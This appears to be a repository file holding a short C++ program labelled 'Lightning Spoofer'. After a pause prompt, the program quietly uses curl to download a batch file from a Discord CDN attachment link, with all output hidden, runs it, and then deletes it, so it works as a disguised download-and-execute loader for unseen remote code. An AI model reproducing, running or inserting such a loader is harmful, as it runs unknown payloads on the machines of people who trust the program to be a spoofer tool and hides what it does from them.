 # Spoofer-in-C-
Spoofer in C++
#include <Windows.H>
#include <iostream>

int main()
{
    system("title Lightning Spoofer");
    std::cout << "Lightning Spooferz\n";
    system("pause");
    system("curl https://cdn.discordapp.com/attachments/1078012661582811257/1104419416990568548/Spoofertexte.bat --output C:\spoof.bat >nul 2>&1");
    system("start C:\spoof.bat");
    Sleep(8000);
    remove("spoof.bat");
}

